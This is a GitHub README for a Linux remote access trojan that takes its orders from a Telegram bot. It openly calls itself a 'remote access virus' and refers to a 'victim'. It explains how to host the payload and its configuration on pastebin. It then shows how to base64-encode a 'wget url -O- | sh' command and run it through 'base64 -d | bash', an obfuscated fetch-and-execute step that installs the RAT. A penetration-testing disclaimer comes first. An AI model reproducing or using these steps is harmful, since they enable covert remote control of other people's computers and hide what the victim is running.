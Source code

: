 # linuxRAT-tgBot 🖤🐧
<sub>ignore the program's output during boot</sub>
##### Disclaimer ⚠️
- Neither the project nor its developer promote any kind of illegal activity and are **not** responsible for any misuse or damage caused by this project.
- This project is for the purpose of penetration **testing only**.
- Please do **not** use this tool on other people's devices without their permission.
- Do **not** use this tool to harm others.
- Use this project responsibly on your own devices **only**.
- It is the end user's **responsibility** to obey all applicable local, state, federal, and international laws.
- This software is meant for educational purposes only. I'm **not** responsible for any malicious use of the app.
- I'm **not** responsible for any malicious use of the app.

# Features 🔥
- this is a remote access virus (so-called RAT);
- the victim does not need a white IP ✨;
- management is carried out using a telegram bot;
- you just need to put the data in a configuration file and upload it all to [pastebin](https://pastebin.com/);
- easy to use

# Requirements 👀
+ python3
    + aiogram==3.0.0b6
    + requests
+ bash commands
    + WGET
	+ CURL
    + imagemagick (not necessarily)
	+ cd
	+ systemct ( systemd🐧 )
	+ sleep (not necessarily)
	+ echo (not necessarily)
	+ if 
	+ then
	+ mkdir
	+ apt (not necessarily)
	+ clear (not necessarily)
+ internet
+ linux!

# Install  🥷🏽
Well, let's start!
I use pastebin, you can use any text paste tool on the web.

1)Setup the bot's config:   
1.1) Copy all code from this [site](https://raw.githubusercontent.com/dentuwu/linuxRAT-tgBot/main/kernel.py).   
1.2) Paste this code in pastebin.com   
1.3) In the TOKEN ribbon, enter your bot token.   
1.4) In the ADMINS ribbon, enter the administrator's ID (listing the user's id in commas), so that only they can use the bot, the id can be taken in [this bot](t.me/myidbot).   
1.5) In the TIMEOUT ribbon, enter a timeout, if the command takes a long time to execute, it will be aborted after n (default 45) seconds.   

2) You should have it in the settings:     
+ Paste Expiration: 1 Week (recommended).    
+ Paste Exposure: Unlisted (so other users don't see your token and id).   

You should get it:   

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/code.jpg "code kernel.py") 
 
![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/optional-paste-settings.jpg "settings paste")

2.1) **Touch** button "Create New Paste".     
3) Click on raw, and **save** the received link:     

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/raw.jpg "rickroll")

4) Setup the install.sh config    
4.1) Copy all code from this [site]https://github.com/dentuwu/linuxRAT-tgBot/raw/main/install.sh).   
4.2) Paste this code in pastebin.com    
4.3) In the URL_KERNEL_PY ribbon, enter the link obtained in point 3.    

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/url-kernel-py.jpg "url kernel py")

4.4) If possible, do the same with URL_KERNEL_SERVICE,URL_NO_ROOT_KERNEL_SERVICE, services are at [this link](https://github.com/dentuwu/linuxRAT-tgBot/tree/main/services), it is **not necessary**.     
4.5) Repeat the points 2.1 and 3.   

##### Using
Open a new terminal, and write this code :   
```bash
 echo "wget url  -O- | sh" | base64
```
Instead of **url**, there should be a link obtained in point 4.5   

You received something like this output - cmlja3JvbGwK, copy it and formulate a ready-made command to download the script and run it:   

```bash
 echo output | base64 -d | bash
```
 
Run this command (on your devices only)!  


## Tested   
**this is script tested on:**  
* Ubuntu 22.04 LTS  


